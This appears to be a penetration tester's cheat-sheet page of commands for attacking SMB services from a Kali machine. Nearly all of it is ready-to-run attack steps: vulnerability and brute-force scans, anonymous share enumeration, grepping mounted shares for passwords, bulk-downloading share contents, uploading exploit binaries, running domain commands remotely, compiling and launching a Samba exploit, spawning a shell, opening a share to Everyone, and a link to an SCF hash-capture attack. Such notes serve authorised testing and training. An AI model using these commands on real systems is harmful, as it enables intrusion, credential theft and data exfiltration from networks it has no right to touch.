 
#### Quick Wins (require creds)

[[zz._Gaining Shell Access (psexec.py)]]
[[zz._Gaining Shell Access (smbexec.py)]]
[[zz._Gaining Shell Access (wmiexec.py)]]

#### nmap vuln check:
```bash - kali
nmap --script smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-cve-2017-7494.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse,smb-vuln-regsvc-dos.nse,smb-vuln-webexec.nse -p445 $TARGET -Pn
```

#### SMB Mounting
```bash - kali
sudo apt install cifs-utils
```

```bash - kali
mkdir ./$SHARE
```

```bash - kali
sudo mount -t nfs $TARGET:/$SHARE/
```

```bash - kali
sudo mount -t cifs //$TARGET/$SHARE ./$SHARE -o user=,password=
```
OR
```bash - kali
sudo mount -t cifs //$TARGET/$SHARE ./$SHARE -o username=$USER,password=$PASSWORD,domain=$DOMAIN
```

```bash - kali
grep -R password ./$SHARE
```

[[Grep]] for lootz.

```bash - kali
sudo umount ./mount
```

#### SMB Enumeration

==CHECK TO SEE IF YOU CAN UPLOAD FILES!==

Enum4linux-ng:
```bash - kali
cd /opt/ && sudo git clone https://github.com/cddmp/enum4linux-ng && cd -
```

```bash - kali
/opt/enum4linux-ng/enum4linux-ng.py $TARGET -A -C
```

nmap scans:
```bash - kali
nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-services.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse -p445 $TARGET
```

```bash - kali
nmap --script smb-brute.nse -p445 $TARGET
```

smbmap:
```bash - kali
smbmap -H $TARGET -P 445
```

```bash - kali
smbmap -u null -p "" -H $TARGET -P 445
```

[[Port 139 445 - SMB ~#smbmap.py]]

List share and gain access with smbclient:
```bash - kali
smbclient -L \\\\$TARGET\\ -N -p 445
```

```bash - kali
smbclient -N //$TARGET/$SHARE
```

smbclient anonymous login:
```bash - kali
smbclient -L $TARGET -U " "%" "
```

```bash - kali
smbclient \\\\$TARGET\\scripts$ -U " "%" "
```

[[Port 139 445 - SMB ~#smbclient]]
#### smbmap.py
```bash - kali
smbmap -H $TARGET
```

```bash - kali
smbmap -H $TARGET -r 'home'
```

```bash - kali
smbmap -H $TARGET -r 'home\$USER'
```

### smbmap Downloading files:
```bash - kali
smbmap -H $TARGET --download 'home\$USER\file.txt'
```

#### smbmap Uploading files:
```bash - kali
smbmap -H $TARGET --upload exploit.exe 'home\$USER\'
```

```bash - kali
smbmap -H $TARGET -P 445 --upload exploit.so 'Share/exploit.so' 
```

```bash - kali
smbmap -u $USER -p $PASSWORD -d $DOMAIN_NAME -x 'net group "Domain Admins" /domain' -H $TARGET
```

#### smbclient

```bash - kali
smbclient -L \\\\$TARGET -N -p 445
```

Using smbclient without creds:
```bash - kali
smbclient \\\\$TARGET\\share -p 445
```

Using smbclient to list shares (authenticated):
```bash - kali
smbclient -L \\\\$TARGET -U "$USER" -p $PASSWORD
```

Using smbclient with creds:
```bash - kali
smbclient \\\\$TARGET\\spray -U "$USER" -p $PASSWORD
```

#### using smbclient to download all files:

```bash - kali
mkdir SMBLoot && cd SMBLoot
```

Unauthenticated:
```bash - kali
smbclient '\\\\$TARGET\\$SHARE'
```

```bash - kali
smbclient -N //$TARGET/$SHARE
```

Authenticated:
```bash - kali
smbclient --user $USER //$TARGET/$SHARE $PASSWORD
```

```bash - kali
mask ""  
```

```bash - kali
recurse ON  
```

```bash - kali
prompt OFF  
```

```bash - kali
mget *
```

```bash - kali
exit
```

```bash - kali
cd ..
```

```bash - kali
find SMBLoot/ -type f
```


==2nd example==
```bash - kali
smbclient //$TARGET/$SHARE
```

```bash - kali
RECURSE ON
```

```bash - kali
PROMPT OFF
```

```bash - kali
mget *
```

#### Low Level Samba Exploit
```bash - kali
searchsploit -m 10
```

```bash - kali
gcc -o exploit-samba 10.c
```

```bash - kali
./exploit-samba -b 0 $TARGET
```

```bash - kali
python -c 'import pty;pty.spawn("/bin/bash")'
```

#### Windows share local folder with everyone

```command prompt - target
net share cshare C:\$SHARE /GRANT:Everyone,FULL
```
  
#### Unsafe nmap script
```bash kali
sudo nmap --script=smb-enum* --script-args=unsafe=1 $TARGET
```

#### Responder - File upload attack
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/